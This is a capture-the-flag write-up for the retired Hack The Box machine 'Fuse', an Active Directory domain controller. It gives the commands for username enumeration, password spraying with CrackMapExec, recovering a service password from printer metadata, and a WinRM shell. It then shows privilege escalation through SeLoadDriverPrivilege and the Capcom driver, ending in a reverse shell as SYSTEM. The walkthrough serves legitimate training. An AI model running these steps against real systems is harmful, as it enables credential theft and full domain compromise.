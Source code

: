# Fuse

This is the write-up for the box Fuse that got retired at the 31st October 2020.
My IP address was 10.10.14.5 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.193    fuse.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/fuse.nmap 10.10.10.193
```

```
PORT     STATE SERVICE      VERSION
53/tcp   open  domain       Simple DNS Plus
80/tcp   open  http         Microsoft IIS httpd 10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Site doesn't have a title (text/html).
88/tcp   open  kerberos-sec Microsoft Windows Kerberos (server time: 2021-10-30 14:17:18Z)
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: fabricorp.local, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: FABRICORP)
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap         Microsoft Windows Active Directory LDAP (Domain: fabricorp.local, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: FUSE; OS: Windows; CPE: cpe:/o:microsoft:windows
```

According to the ports, this is an **Active Directory** domain controller and the hostname _fabricorp.local_ should be put into the _/etc/hosts_ file.

## Checking HTTP (Port 80)

When trying to browse to the web page, it wants to forward to the domain name _fuse.fabricorp.local/papercut/logs/html/index.htm_ but can't reach it.
It has to be put into the _/etc/hosts_ file and access is granted.

The web page shows **Print Logs** from the print management software [PaperCut](https://www.papercut.com/):

![PaperCut Print Logger](fuse_web-1.png)

The _View_ button shows logs for printed documents and there are usernames and client names that may be useful:

| User | Client |
| ---- | ------ |
| pmerton | JUMP01 |
| tlavel | LONWK015 |
| sthompson | LONWK019 |
| bhult | LAPTOP07 |
| administrator | FUSE |

The document name of the logs from _29 May 2020_ is called _"New Starter - bnielson - Notepad"_ and _bnielson_ could also be a potential username.

Lets put all of those usernames into a file and use [kerbrute](https://github.com/ropnop/kerbrute) to check if they are valid:
```
./kerbrute userenum --dc 10.10.10.193 -d fabricorp.local users.list
```

All of the usernames are valid, so a custom wordlist could be useful to test password against these users.

## Credential Gathering

The most used passwords in companies are often the company name and seasons:
```
Fabricorp
Summer
Winter
```

Using **Hashcat** to apply a rule to the wordlist:
```
hashcat --force wordlist.list -r /usr/share/hashcat/rules/best64.rule --stdout > wordlist_rule.list
```

Removing all words that are shorter than 8 characters:
```
sed -e '/^.\{,7\}$/d' wordlist_rule.list > wordlist_rule_short.list
```

Testing the created list of passwords against the usernames with **CrackMapExec**:
```
crackmapexec smb 10.10.10.193 -u users.list -p wordlist_rule_short.list
```
```
SMB    10.10.10.193    445    FUSE     [-] fabricorp.local\tlavel:Fabricorp01 STATUS_PASSWORD_MUST_CHANGE
```

The user _tlavel_ seems to have the password _Fabricorp01_ and the password has to be changed:
```
smbpasswd -U tlavel -r 10.10.10.193

Old SMB password: Fabricorp01
New SMB password: NewPass123
Retype new SMB password: NewPass123
Password changed for user tlavel on 10.10.10.193.
```

Connecting to RPC client with the new password:
```
rpcclient -U tlavel 10.10.10.193
```

> NOTE: After setting the new password, the connection to RPC has to be done fast as the password is reset every minute

Gathering more users:
```
rpcclient $> enumdomusers

user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[svc-print] rid:[0x450]
user:[bnielson] rid:[0x451]
user:[sthompson] rid:[0x641]
user:[tlavel] rid:[0x642]
user:[pmerton] rid:[0x643]
user:[svc-scan] rid:[0x645]
user:[bhult] rid:[0x1bbd]
user:[dandrews] rid:[0x1bbe]
user:[mberbatov] rid:[0x1db1]
user:[astein] rid:[0x1db2]
user:[dmuir] rid:[0x1db3]
```

As there are two service accounts for printing and the web server is printer management, there may be information in the printer objects:
```
rpcclient $> enumprinters

name:[\\10.10.10.193\HP-MFT01]
description:[\\10.10.10.193\HP-MFT01,HP Universal Printing PCL 6,Central (Near IT, scan2docs password: $fab@s3Rv1ce$1)]
```

It contains another password that can be tested against all users:
```
crackmapexec smb 10.10.10.193 -u users.list -p '$fab@s3Rv1ce$1'

SMB    10.10.10.193    445    FUSE      [+] fabricorp.local\svc-print:$fab@s3Rv1ce$1
```

The password works for the user _svc-print_. Checking if **WinRM** connection is possible:
```
crackmapexec winrm 10.10.10.193 -u svc-print  -p '$fab@s3Rv1ce$1'

WINRM    10.10.10.193    5985   FUSE      [+] fabricorp.local\svc-print:$fab@s3Rv1ce$1 (Pwn3d!)
```

Using **Evil-WinRM** to get a shell connection:
```
evil-winrm.rb -i 10.10.10.193 -u svc-print -p '$fab@s3Rv1ce$1'
```

## Privilege Escalation

When checking the users permissions, it shows that the _SeLoadDriverPrivilege_ privilege is set:
```
whoami /all
```
```
Privilege Name                Description                    State
============================= ============================== =======
SeLoadDriverPrivilege         Load and unload device drivers Enabled
```

With this permission, it is possible to load drivers into the kernel and escalate privileges that way.
The most common driver to load is the **Capcom driver** explained by [FuzzySecurity](https://www.fuzzysecurity.com/tutorials/28.html) that can should be downloaded from their [GitHub repository](https://github.com/FuzzySecurity/Capcom-Rootkit/blob/master/Driver/Capcom.sys).

This [article from Tarlogic](https://www.tarlogic.com/blog/abusing-seloaddriverprivilege-for-privilege-escalation/) explains the steps to exploit _SeLoadDriverPrivilege_.
They provide a Proof of Concept driver on their [GitHub repository](https://github.com/TarlogicSecurity/EoPLoadDriver/) that we will use.

Compiling the C++ file _eoploaddriver.cpp_ in **Visual Studio**:
```
New Project --> Visual C++ --> Console App --> Paste code into cpp file --> Rebuild Solution
```

Another necessary tool is the utility from [this repository](https://github.com/tandasat/ExploitCapcom) to exploit _Capcom.sys_.

Compiling the project _ExploitCapcom.sln_ in **Visual Studio**:
```
File --> Open --> Project/Solution --> Rebuild Solution
```

Modifying the code in _ExploitCapcom.cpp_ to not execute `cmd.exe` but our own binary:
```
(...)
Line 410: TCHAR CommandLine[] = TEXT("C:\\windows\\temp\\shell.exe");
(...)
```

The project has to be compiled again to have the modified version.

This [Simple_Rev_Shell from BankSecurity](https://gist.github.com/BankSecurity/55faad0d0c4259c623147db79b2a83cc) will be used as the executable to gain a reverse shell connection.

Compiling the reverse shell binary on a Windows box:
```
C:\Windows\Microsoft.Net\Framework64\v4.0.30319\csc.exe /t:exe /out:c:\windows\temp\shell.exe "c:\HP Universal Print Driver\shell.cs"
```

This results in four files that I will upload to the box in _C:\Windows\Temp_.
- Capcom.sys
- EoPLoadDriver.exe
- ExploitCapcom.exe
- shell.exe

Executing _EoPLoadDriver.exe_ to create the _Capcom.sys_ driver in the registry:
```
.\EoPLoadDriver.exe System\CurrentControlSet\NewDriver c:\windows\temp\Capcom.sys
```
```
[+] Enabling SeLoadDriverPrivilege
[+] SeLoadDriverPrivilege Enabled
[+] Loading Driver: \Registry\User\S-1-5-21-2633719317-1471316042-3957863514-1104\System\CurrentControlSet\NewDriver
NTSTATUS: 00000000, WinError: 0
```

Executing _ExploitCapcom.exe_ to exploit the new driver and execute _shell.exe_:
```
.\ExploitCapcom.exe
```

After executing it, the listener on my IP and port 9001 starts a reverse shell as _SYSTEM_!
